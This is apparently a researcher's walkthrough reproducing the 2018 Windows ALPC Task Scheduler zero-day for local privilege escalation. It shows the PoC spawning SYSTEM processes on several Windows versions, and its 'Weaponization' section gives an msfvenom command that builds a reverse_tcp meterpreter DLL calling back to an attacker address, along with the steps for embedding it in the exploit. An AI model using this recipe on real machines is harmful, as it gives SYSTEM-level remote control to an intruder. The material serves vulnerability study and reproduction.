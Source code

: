 # ALPC bug 0day

[https://github.com/SandboxEscaper/randomrepo/blob/master/PoC-LPE.rar](https://github.com/SandboxEscaper/randomrepo/blob/master/PoC-LPE.rar)

{% embed data="{\"url\":\"https://www.theregister.co.uk/2018/08/28/windows\_0day\_pops\_up\_out\_of\_span\_classstrikenowherespan\_twitter/\",\"type\":\"link\",\"title\":\"Windows 0-day pops up out of nowhere Twitter\",\"description\":\"Local privilege escalation in procedure calls\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.theregister.co.uk/Design/graphics/icons/vulture\_black\_60\_trans.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://regmedia.co.uk/2017/05/03/panic\_shutterstock.jpg?x=1200&y=794\",\"width\":1200,\"height\":794,\"aspectRatio\":0.6616666666666666}}" %}

## How to use

A 0day for a local priv esc for Windows was published August 28th on Twitter by @sandboxescaper, whose account was pulled quickly. The PoC is on [Github](https://github.com/SandboxEscaper/randomrepo). The video posted with the PoC wasn't evident so I made a quick reproduction to verify whether it works, and it certainly does.

* As Administrator, open [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) - right click, "Run as administrator"
* As a regular user, launch notepad. If you opened it from cmd, you get a subprocess notepad inside cmd. This thread runs with the user context you launched it with. Note that the PID of the notepad process is `3872`

![](../.gitbook/assets/image%20%286%29.png)

![](../.gitbook/assets/image%20%2811%29.png)

* If you need to see username and  integrity level in Process Explorer you can go to View -&gt; Select columns and check 

![](../.gitbook/assets/image%20%2814%29.png)

Now, have a look at the process spoolsv.exe which is basically where the actions is going to happen. Nothing much here yet.

![](../.gitbook/assets/image%20%2816%29.png)

Now fire the exploit off and see what happens \(this is demonstrated in the PoC video\). We use the PID of the notepad process we spawned earlier `3872`

![](../.gitbook/assets/image%20%283%29.png)

Now, it appears that nothing is happening, but take a look at spoolsv in Process Explorer again.

![](../.gitbook/assets/image%20%282%29.png)

Bham! cmd.exe with subprocesses conhost and notepad has spawned as SYSTEM! 

### Windows 10 - works!

0day priv esc confirmed on Windows 10 1803. No patch has been released by MS yet \(28.08.2018\)

![](../.gitbook/assets/image%20%284%29.png)

This could probably be tweaked to open an actual cmd window as SYSTEM instead of a windowless process in the background.

Edit on the above: @plaintext notified me that the processes spawn in session 0 which is why they won't be visible to the user which operations in session 1. If you toggle Session in the columns panel in ProcExplorer you can see that very clearly.

![](../.gitbook/assets/image%20%285%29.png)

###  Server 2016 - works

![](../.gitbook/assets/image%20%2815%29.png)

### Windows 7 - Nothing happens

![](../.gitbook/assets/image%20%2817%29.png)

\*\*\*\*

### Weaponization maybe?

After reading the source code I discovered that notepad is launched from the `exploit.dll` added as a Resource. This can be seen at line 101-105 in the source code.

```text
//Payload is included as a resource, you need to modify this resource accordingly.
HRSRC myResource = ::FindResource(mod, MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);
unsigned int myResourceSize = ::SizeofResource(mod, myResource);
HGLOBAL myResourceData = ::LoadResource(mod, myResource);
void* pMyBinaryData = ::LockResource(myResourceData);
```

When clicking that one, we can see this exploit.dll which in the PoC just spawns notepad can't be read since I don't have it in that absolute path.

![](../.gitbook/assets/image%20%2813%29.png)

So instead of recompiling and fixing the 500 errors I got from visual studio I decided it was easier to replace the dll directly as a  Resource with [CFF Explorer](https://ntcore.com/?page_id=388)'. But before I did that I had to prepare the payload.

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.0.0.16 lport=444 -f dll -o lol.dll`

Select "Replace Resource \(raw\)" in CFF Explorer and provide the `lol.dll`. Then save the `ALPC-TaskSched-LPE.dll` as a new file. The entire exploit is now embedded into the dll file

![](../.gitbook/assets/image%20%2818%29.png)

So we  fire of the exploit again, just like we did above and wait for our shell to come back.

Woop de doo we got a SYSTEM meterpreter.

![](../.gitbook/assets/image%20%289%29.png)


